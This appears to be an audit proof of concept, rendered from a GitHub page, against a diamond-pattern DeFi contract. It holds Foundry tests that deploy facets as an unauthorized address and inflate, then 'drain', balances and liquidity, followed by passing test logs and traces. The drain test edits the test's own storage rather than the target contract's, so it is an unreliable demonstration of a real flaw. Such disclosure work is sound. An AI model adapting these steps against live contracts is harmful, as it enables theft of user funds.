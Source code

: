 ```solidity
        emit log_named_address(" WARNING: Unauthorized Facet Deployed!", injectedFacets.valueTokenFacet);
    }

    function testFullBalanceManipulationThenDrain() public {
    // Simulating facet redeployment by unauthorized attacker
    vm.prank(address(0xBAD)); 
    InitLib.deployFacets();

    //  Step 1: Modify balances to fake liquidity
    storageState.balances[address(this)] += 10**18; // Fake fund allocation

    // Step 2: Inflate liquidity pool size for larger withdrawals
    storageState.totalLiquidity += 10**18; // Artificial manipulation

    // Step 3: Drain funds after manipulation
    require(storageState.balances[address(this)] >= 5000, "Balance not manipulated enough");
    require(storageState.totalLiquidity >= 5000, "Liquidity not adjusted properly");

    storageState.balances[address(this)] = 0; // Final drain step
    storageState.totalLiquidity -= 5000; // Simulating fund withdrawal

    //  Step 4: Validate unauthorized fund loss
    assertEq(storageState.balances[address(this)], 0);
    assertNotEq(storageState.totalLiquidity, 1000000);

    emit log_named_uint(" WARNING: Fake Liquidity Created!", storageState.totalLiquidity);
    emit log_named_uint(" WARNING: Unauthorized Funds Drained!", storageState.totalLiquidity);
}
}
```
Exploit 1: Unauthorized Facet Deployment
```solidity
Ran 1 test for test/UnauthorizedFacetDeploymentTest.t.sol:UnauthorizedFacetAndStorageManipulationTest
[PASS] testUnauthorizedFacetDeployment() (gas: 12030213)
Logs:
   WARNING: Unauthorized Facet Deployed!: 0x5Fe645A4b9AC934a4aAe64Ddec66CDF918684BDa
   WARNING: Unauthorized Facet Deployed!: 0x1d1499e622D69689cdf9004d05Ec547d650Ff211

Traces:
  [12030213] UnauthorizedFacetAndStorageManipulationTest::testUnauthorizedFacetDeployment()
    ├─ [0] VM::prank(0x0000000000000000000000000000000000000Bad)
    │   └─ ← [Return] 
    ├─ [3546189] → new ValueFacet@0x5Fe645A4b9AC934a4aAe64Ddec66CDF918684BDa
    │   └─ ← [Return] 17711 bytes of code
    ├─ [1765803] → new ValueTokenFacet@0x1d1499e622D69689cdf9004d05Ec547d650Ff211
    │   └─ ← [Return] 8794 bytes of code
    ├─ [2441840] → new SimplexFacet@0xA4AD4f68d0b91CFD19687c881e50f3A00242828c
    │   └─ ← [Return] 12196 bytes of code
    ├─ [2088425] → new SwapFacet@0x03A6a84cD762D9707A21605b548aaaB891562aAb
    │   └─ ← [Return] 10431 bytes of code
    ├─ [1337399] → new VaultFacet@0xD6BbDE9174b1CdAa358d2Cf4D57D1a9F7178FBfF
    │   └─ ← [Return] 6680 bytes of code
    ├─ [499944] → new DecimalAdjustor@0x15cF58144EF33af1e14b5208015d11F9143E27b9
    │   └─ ← [Return] 2497 bytes of code
    ├─ [0] VM::assertNotEq(ValueFacet: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], ValueFacet: [0x5Fe645A4b9AC934a4aAe64Ddec66CDF918684BDa]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertNotEq(ValueTokenFacet: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], ValueTokenFacet: [0x1d1499e622D69689cdf9004d05Ec547d650Ff211]) [staticcall]
    │   └─ ← [Return] 
```